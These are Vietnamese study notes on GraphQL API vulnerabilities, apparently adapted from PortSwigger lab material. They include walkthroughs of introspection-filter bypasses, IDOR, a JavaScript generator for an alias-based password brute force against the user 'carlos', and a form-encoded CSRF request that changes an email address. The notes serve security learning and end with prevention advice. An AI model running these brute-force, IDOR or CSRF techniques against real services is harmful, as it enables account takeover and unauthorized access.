


# GraphQL API vulnerabilities

Các lỗ hổng GraphQL thường phát sinh do lỗi triển khai và thiết kế. Ví dụ, tính năng nội quan có thể vẫn hoạt động, cho phép kẻ tấn công truy vấn API để thu thập thông tin về lược đồ của nó.

Các cuộc tấn công GraphQL thường ở dạng các yêu cầu độc hại có thể cho phép kẻ tấn công lấy dữ liệu hoặc thực hiện các hành động trái phép. Những cuộc tấn công này có thể gây ra tác động nghiêm trọng, đặc biệt là nếu người dùng có thể giành được quyền quản trị bằng cách thao túng các truy vấn hoặc thực hiện khai thác CSRF. API GraphQL dễ bị tấn công cũng có thể dẫn đến các vấn đề tiết lộ thông tin.


## Finding GraphQL endpoints

Trước khi bạn có thể kiểm tra GraphQL API, trước tiên bạn cần tìm endpoint của nó. Vì GraphQL API sử dụng cùng một endpoint cho tất cả các yêu cầu, đây là một thông tin có giá trị.

### Universal queries

Nếu bạn gửi `query{__typename}` đến bất kỳ endpoint GraphQL nào, nó sẽ bao gồm chuỗi `{"data": {"__typename": "query"}}` ở đâu đó trong phản hồi. Đây được gọi là truy vấn chung và là công cụ hữu ích để thăm dò xem URL có tương ứng với dịch vụ GraphQL hay không.

Truy vấn này hoạt động vì mỗi endpoint GraphQL đều có một trường dành riêng gọi là `__typename` trả về kiểu của đối tượng được truy vấn dưới dạng chuỗi.

### Common endpoint names

Các dịch vụ GraphQL thường sử dụng hậu tố endpoint tương tự. Khi kiểm tra các endpoint GraphQL, bạn nên xem xét gửi các truy vấn chung đến các vị trí sau:

- /graphql
- /api
- /api/graphql
- /graphql/api
- /graphql/graphql

Nếu các endpoint phổ biến này không trả về phản hồi GraphQL, bạn cũng có thể thử thêm `/v1` vào đường dẫn.

Note: Các dịch vụ GraphQL thường sẽ phản hồi bất kỳ yêu cầu nào không phải GraphQL bằng lỗi "`query not present`" hoặc lỗi tương tự. Bạn nên ghi nhớ điều này khi thử nghiệm các endpoint GraphQL.

### Request methods

Bước tiếp theo trong việc tìm endpoint GraphQL là thử nghiệm bằng các phương pháp yêu cầu khác nhau.

Thực hành tốt nhất cho các endpoint GraphQL là chỉ chấp nhận các yêu cầu `POST` có loại nội dung là `application/json`, vì điều này giúp bảo vệ chống lại các lỗ hổng CSRF. Tuy nhiên, một số endpoint có thể chấp nhận các phương pháp thay thế, chẳng hạn như yêu cầu `GET` hoặc yêu cầu `POST` sử dụng kiểu nội dung là `x-www-form-urlencoded`.

Nếu bạn không thể tìm thấy endpoint GraphQL bằng cách gửi yêu cầu POST đến các endpoint chung, hãy thử gửi lại truy vấn chung bằng phương pháp HTTP thay thế.

### Initial testing

Khi đã phát hiện ra điểm cuối, bạn có thể gửi một số yêu cầu thử nghiệm để hiểu rõ hơn về cách thức hoạt động của nó. Nếu điểm cuối đang cung cấp nội dung cho một trang web, hãy thử khám phá giao diện web trong trình duyệt Burp và sử dụng lịch sử HTTP để kiểm tra các truy vấn được gửi.

## Exploiting unsanitized arguments

Tại thời điểm này, bạn có thể bắt đầu tìm kiếm lỗ hổng. Kiểm tra đối số truy vấn là một nơi tốt để bắt đầu.

Nếu API sử dụng đối số để truy cập trực tiếp vào các đối tượng, nó có thể dễ bị tấn công bởi các lỗ hổng kiểm soát truy cập. Người dùng có khả năng truy cập thông tin mà họ không được phép chỉ bằng cách cung cấp một đối số tương ứng với thông tin đó. Đôi khi điều này được gọi là tham chiếu đối tượng trực tiếp không an toàn (IDOR).

Ví dụ, truy vấn bên dưới yêu cầu danh sách sản phẩm cho một cửa hàng trực tuyến:

```graphql
    #Example product query

    query {
        products {
            id
            name
            listed
        }
    }
```

Danh sách sản phẩm trả về chỉ chứa những sản phẩm được liệt kê.

```graphql
    #Example product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }
```

Từ thông tin này, chúng ta có thể suy ra điều sau:
- Sản phẩm được gán một ID tuần tự.
- Mã sản phẩm 3 không có trong danh sách, có thể là do sản phẩm này đã bị xóa khỏi danh sách.

Bằng cách truy vấn ID của sản phẩm bị thiếu, chúng ta có thể biết được thông tin chi tiết về sản phẩm đó, ngay cả khi sản phẩm đó không được liệt kê trên cửa hàng và không được trả về bởi truy vấn sản phẩm ban đầu.

```graphql
    #Query to get missing product

    query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```

```graphql
    #Missing product response

    {
        "data": {
            "product": {
            "id": 3,
            "name": "Product 3",
            "listed": no
            }
        }
    }
```

## Discovering schema information - Tìm ra Schema

Bước tiếp theo trong quá trình thử nghiệm API là ghép nối thông tin về lược đồ (schema) cơ bản.

Cách tốt nhất để thực hiện điều này là sử dụng truy vấn introspection. introspection là một hàm GraphQL tích hợp cho phép bạn truy vấn máy chủ để biết thông tin về lược đồ.

Introspection giúp bạn hiểu cách bạn có thể tương tác với GraphQL API. Nó cũng có thể tiết lộ dữ liệu nhạy cảm tiềm ẩn, chẳng hạn như trường mô tả.

### Using introspection

Để sử dụng introspection để khám phá thông tin lược đồ, hãy truy vấn trường `__schema`. Trường này có sẵn trên root type của tất cả các truy vấn.

Giống như các truy vấn thông thường, bạn có thể chỉ định các trường và cấu trúc của phản hồi mà bạn muốn trả về khi chạy truy vấn introspection. Ví dụ, bạn có thể muốn phản hồi chỉ chứa tên của các mutation có sẵn.

### Probing for introspection

Tốt nhất là nên tắt tính năng introspection trong môi trường sản xuất, nhưng lời khuyên này không phải lúc nào cũng được tuân theo.

Bạn có thể thăm dò introspection bằng cách sử dụng truy vấn đơn giản sau. Nếu introspection được bật, phản hồi sẽ trả về tên của tất cả các truy vấn khả dụng.

```graphql
    #Introspection probe request

    {
        "query": "{__schema{queryType{name}}}"
    }
```

### Running a full introspection query

Bước tiếp theo là chạy truy vấn introspection đầy đủ trên endpoint để bạn có thể có được càng nhiều thông tin về lược đồ cơ bản càng tốt.

Ví dụ truy vấn bên dưới trả về thông tin chi tiết đầy đủ về tất cả các truy vấn, mutation, đăng ký, loại và phân đoạn.

```graphql
    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

Note: Nếu introspection được bật nhưng truy vấn trên không chạy, hãy thử xóa các chỉ thị `onOperation`, `onFragment` và `onField` khỏi cấu trúc truy vấn. Nhiều endpoint không chấp nhận các chỉ thị này như một phần của truy vấn introspection và bạn thường có thể thành công hơn với introspection bằng cách loại bỏ chúng.

### Visualizing introspection results

Câu trả lời cho các introspection query có thể chứa đầy thông tin, nhưng thường rất dài và khó xử lý.

Bạn có thể xem mối quan hệ giữa các thực thể lược đồ dễ dàng hơn bằng cách sử dụng [GraphQL visualizer](http://nathanrandal.com/graphql-visualizer/). Đây là một công cụ trực tuyến lấy kết quả của truy vấn introspection và tạo ra biểu diễn trực quan về dữ liệu trả về, bao gồm mối quan hệ giữa các phép toán và kiểu dữ liệu.

### Suggestions

Ngay cả khi introspection bị vô hiệu hóa hoàn toàn, đôi khi bạn vẫn có thể sử dụng các suggestions để thu thập thông tin về cấu trúc của API.

suggestions là một tính năng của nền tảng Apollo GraphQL trong đó máy chủ có thể đề xuất các sửa đổi truy vấn trong thông báo lỗi. Những điều này thường được sử dụng khi truy vấn có phần không chính xác nhưng vẫn có thể nhận ra (ví dụ: `There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`).

Bạn có thể thu thập được thông tin hữu ích từ đây vì phản hồi thực sự tiết lộ các phần hợp lệ của lược đồ

Clairvoyance là một công cụ sử dụng các gợi ý để tự động khôi phục toàn bộ hoặc một phần lược đồ GraphQL, ngay cả khi tính năng nội quan bị tắt. Điều này giúp giảm đáng kể thời gian cần thiết để tổng hợp thông tin từ các phản hồi gợi ý.

---

### Ví dụ: Accessing private GraphQL posts

https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts

Mục tiêu là truy cập bài viết private (1 dạng IDOR)

Ở trang blog ta thấy có dùng graphQL để lấy bài viết:


Chuyển sang graphQL để dễ quan sát:


Quan sát ta thấy bài viết trả về có id là 1, 2, 4, 5 mà không có id:3

Mặt khác, truy vấn introspection: `GraphQL > Set introspection query` ta được


Ở `BlogPost` ta thấy có trường `isPrivate` và `postPassword` từ đây ta truy vấn post ID:3 và thêm 2 trường này:


---


### Ví dụ: Accidental exposure of private GraphQL fields

https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure

Mục tiêu: đăng nhập `admin` xóa `carlos`

Ta thấy endpoint sửa dụng graphQL: POST `/graphql/v1`

truy vấn introspection: `GraphQL > Set introspection query`:


Qua sitemap ta thấy các query được đưa ra request ví dụ cho introspection vừa nhận được


Thử lần lượt các id ta được:


Đăng nhập và xóa Carlos

---

## Bypassing GraphQL introspection defenses

Nếu bạn không thể chạy truy vấn introspection cho API mà bạn đang thử nghiệm, hãy thử chèn một ký tự đặc biệt sau từ khóa `__schema`.

Khi các nhà phát triển vô hiệu hóa introspection, họ có thể sử dụng regex để loại trừ từ khóa `__schema` trong các truy vấn. Bạn nên thử các ký tự như khoảng trắng, dòng mới và dấu phẩy, vì chúng bị GraphQL bỏ qua nhưng regex lỗi thì không.

Do đó, nếu nhà phát triển chỉ loại trừ `__schema{`, thì truy vấn introspection bên dưới sẽ không bị loại trừ.

```graphql
    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

Nếu cách này không hiệu quả, hãy thử chạy thử nghiệm qua phương thức yêu cầu thay thế, vì tính năng introspection chỉ có thể bị vô hiệu hóa qua POST. Hãy thử yêu cầu GET hoặc yêu cầu POST với kiểu nội dung là `x-www-form-urlencoded`.

Ví dụ bên dưới hiển thị một cuộc thăm dò introspection được gửi qua GET, với các tham số được mã hóa URL.

```http
# Introspection probe as GET request

GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

---

### Ví dụ: Finding a hidden GraphQL endpoint

https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint

Mục tiêu là tìm được endpoint truy vấn graphQL

Chạy các endpoint phổ biến và thấy phản hồi:


Hoặc có thể scan ra `/api` thì có thể biết endpoint này để query graphQL

Sửa đổi các loại query để có thể trả về kết quả chung:


Tương tự để tìm introspection nhưng nhận lại phản hồi bị chặn:



Dùng `\n` cuối các kí tự đó ta nhận được:


Ta thấy có query để lấy thông tin user và delete:


Tìm carlos:


Xóa Carlos:


---

## Bypassing rate limiting using aliases

Thông thường, các đối tượng GraphQL không thể chứa nhiều thuộc tính có cùng tên. Bí danh cho phép bạn bỏ qua hạn chế này bằng cách đặt tên rõ ràng cho các thuộc tính mà bạn muốn API trả về. Bạn có thể sử dụng bí danh để trả về nhiều phiên bản của cùng một loại đối tượng trong một yêu cầu.

Trong khi các bí danh có mục đích hạn chế số lượng lệnh gọi API mà bạn cần thực hiện, chúng cũng có thể được sử dụng để tấn công điểm cuối GraphQL.

Nhiều điểm cuối sẽ có một số loại bộ giới hạn tốc độ để ngăn chặn các cuộc tấn công brute force. Một số bộ giới hạn tốc độ hoạt động dựa trên số lượng yêu cầu HTTP nhận được thay vì số lượng thao tác được thực hiện trên điểm cuối. Vì các bí danh cho phép bạn gửi nhiều truy vấn trong một tin nhắn HTTP duy nhất nên chúng có thể vượt qua hạn chế này.

Ví dụ đơn giản dưới đây hiển thị một loạt các truy vấn bí danh kiểm tra xem mã giảm giá của cửa hàng có hợp lệ hay không. Hoạt động này có khả năng bỏ qua giới hạn tốc độ vì đây là một yêu cầu HTTP duy nhất, mặc dù nó có khả năng được sử dụng để kiểm tra số lượng lớn mã giảm giá cùng một lúc.

```graphql
    #Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

---

### Ví dụ: Bypassing GraphQL brute force protections

https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass

Mục tiêu: brute-force đăng nhập carlos nhưng web có rate limit

=> Tạo các aliase để 1 request nhưng thử được nhiều password

dùng đoạn script để tạo các aliase:

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

Chạy nhanh đoạn js này bằng console browser

Đoạn script dạng:

```graphql
bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }
```

Copy vào request mutation:




---

## GraphQL CSRF

GraphQL có thể được sử dụng như một phương tiện tấn công CSRF, trong đó kẻ tấn công tạo ra một lỗ hổng khiến trình duyệt của nạn nhân gửi một truy vấn độc hại với tư cách là người dùng nạn nhân.

### How do CSRF over GraphQL vulnerabilities arise?

Lỗ hổng CSRF có thể phát sinh khi endpoint GraphQL không xác thực loại nội dung của các yêu cầu được gửi đến và không triển khai bất kỳ mã thông báo CSRF nào.

Các yêu cầu POST sử dụng loại nội dung là `application/json` sẽ an toàn trước nguy cơ làm giả miễn là loại nội dung đó được xác thực. Trong trường hợp này, kẻ tấn công sẽ không thể khiến trình duyệt của nạn nhân gửi yêu cầu này ngay cả khi nạn nhân truy cập vào một trang web độc hại.

Tuy nhiên, các phương pháp thay thế như GET hoặc bất kỳ yêu cầu nào có loại nội dung là `x-www-form-urlencoded` đều có thể được trình duyệt gửi đi và do đó có thể khiến người dùng dễ bị tấn công nếu điểm cuối chấp nhận các yêu cầu này. Trong trường hợp này, kẻ tấn công có thể tạo ra lỗ hổng để gửi các yêu cầu độc hại đến API.

---

### Ví dụ: Performing CSRF exploits over GraphQL

https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api

Đăng nhập `wiener:peter` và đổi email

Đổi email lần 2 bằng request vừa đổi lần 1 để thấy cùng session vẫn đổi được, không có CSRF nào áp dụng.

Để dùng CSRF cần chuyển qua `application/x-www-form-urlencoded` thì ta được POST theo dạng:

```http
POST /graphql/v1 HTTP/2
Host: 0a1f002703179ef0817f07a7005300f1.web-security-academy.net
Cookie: session=JBXlhhDBi6TQqwlWJeBVDMAi4Z82LSXN; session=JBXlhhDBi6TQqwlWJeBVDMAi4Z82LSXN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: application/json
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a1f002703179ef0817f07a7005300f1.web-security-academy.net/my-account
Origin: https://0a1f002703179ef0817f07a7005300f1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 272

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

Thử đổi lại email 1 lần nữa và nhận thấy vẫn thành công

Tạo mã PoC CSRF và bỏ vào exploit server

---

## Preventing GraphQL attacks

Để ngăn chặn nhiều cuộc tấn công GraphQL phổ biến, hãy thực hiện các bước sau khi triển khai API của bạn vào môi trường sản xuất:

- Nếu API của bạn không dành cho công chúng sử dụng, hãy tắt tính năng tự kiểm tra trên API. Điều này khiến kẻ tấn công khó có thể lấy được thông tin về cách thức hoạt động của API và giảm nguy cơ tiết lộ thông tin không mong muốn.

- Nếu API của bạn dành cho công chúng sử dụng thì có thể bạn sẽ cần phải bật tính năng introspection. Tuy nhiên, bạn nên xem lại lược đồ của API để đảm bảo rằng nó không tiết lộ các trường không mong muốn cho công chúng.

- Đảm bảo rằng các gợi ý đã bị vô hiệu hóa. Điều này ngăn chặn kẻ tấn công có thể sử dụng Clairvoyance hoặc các công cụ tương tự để thu thập thông tin về lược đồ cơ bản.

- Đảm bảo rằng lược đồ API của bạn không hiển thị bất kỳ trường người dùng riêng tư nào, chẳng hạn như địa chỉ email hoặc ID người dùng.


